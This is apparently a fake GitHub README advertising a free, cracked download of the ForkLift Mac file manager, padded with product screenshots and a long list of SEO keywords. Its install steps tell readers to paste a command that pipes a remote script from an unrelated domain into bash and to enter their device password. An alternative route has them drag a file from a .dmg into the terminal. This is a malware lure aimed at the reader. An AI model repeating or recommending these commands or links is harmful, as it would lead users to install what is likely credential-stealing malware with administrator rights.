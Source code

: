 # ForkLift for Mac
🔘 [![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://forklift-mac-download.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


🎯 What You Unlock  

  🔓 Advanced dual-pane file management  

  📂 Seamless FTP, SFTP, and cloud integration  

  ⚡ Fast and intuitive UI  

  🛠 Batch rename, sync, and folder merging  

  🛡 No online validation or login required

🖼 Preview  

![ForkLift main screen](https://binarynights.com/images/main.png)  


![ForkLift main window](https://binarynights.com/images/manual/forklift-4-main_window.png)  


![ForkLift GUI](https://binarynights.com/images/manual/forklift-4-gui.png)  


🔍 SEO Keywords  

forklift mac, forklift mac os, forklift os x, forklift app mac, forklift ftp, forklift ftp client, mac os forklift, forklift mac download, forklift download, forklift mac free download, forklift free download, forklift file manager, forklift macbook, mac file manager forklift, forklift cloud sync, forklift dual pane, forklift mac setup, forklift mac installer, forklift offline, forklift file transfer, forklift batch rename, forklift productivity, forklift mac software, forklift macOS, forklift mac GUI, forklift fast file manager
